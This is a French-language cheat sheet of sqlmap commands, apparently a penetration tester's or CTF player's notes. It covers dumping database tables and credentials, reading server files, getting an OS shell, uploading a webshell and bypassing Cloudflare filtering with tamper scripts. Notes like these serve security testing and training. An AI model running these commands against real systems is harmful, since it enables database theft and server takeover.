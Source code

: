 # sqlmap

## pratique:

1. Faire un “copy to file” de la requete depuis burp
2. sqlmap -r <fichier> -a --batch



## en GET
sqlmap -u "http://example.com/?a=1&b=2&c=3" -p "a,b"

## en POST
sqlmap -u "http://example.com/" --data "a=1&b=2&c=3" -p "a,b" --method POST
     

## lister les tables:
sqlmap -u http://10.10.10.143/room.php?cod=1 -p "cod" --dbms=mysql --tables

#lister les tables d'une base
python sqlmap.py -u "http://www.site.com/section.php?id=51" --tables -D safecosmetics

#lister les colonne d'une tables:
python sqlmap.py -u "http://www.site.com/section.php?id=51" --columns -D safecosmetics -T users

#dumper une seule table:
sqlmap -u http://10.10.10.143/room.php?cod=1 -p "cod" --dbms=mysql -D 'mysql' -T 'user' --dump

#tout dumper
sqlmap -u http://10.10.10.10.... --dbms=mysql --dump-all

## dumper la base courante 
sqlmap -u http://10.10.10.10.... --dbms=mysql --dump

#from and by Burp 
→ clid droit -> copy to file
→ sqlmap -r <file>
→ sqlmap --proxy=http://127.0.0.1:8080-

## sqlmap crawl  
sqlmap -u http://10.10.10.10 --crawl=1


## sqlmap shell  
sqlmap -u http://10.10.10.10 --dbms=mysql --os-shell


## upload webshell
sudo sqlmap -r sqli_search_productName --file-write=webshell.php --file-dest=c:/inetpub/wwwroot/webshell.php --batch

#lire un fichier:
sqlmap -u http://127.0.0.1:1080/blog/single.php?id=* --level 5 --risk 3 --batch --file-read=/opt/lampp/htdocs/index.php


## checker les privs:
sqlmap -u 192.168.1.124/sqli/Less-1/?id=1 --privileges


## proxy
--temper pour le bypass de proxy


## Commande SQL:
sqlmap -u http://127.0.0.1:1080/blog/single.php?id=* --level 5 --risk 3 --batch --dbms=mysql --sql-shell

sql-shell> SELECT * FROM blogs

## sous windows:
télécharger le projet et lancer: python ./sqlmap.py

## cloudflare bypaass

python .\sqlmap.py -r .\question.raw --batch tamper="between,randomcase,space2comment" --random-agent

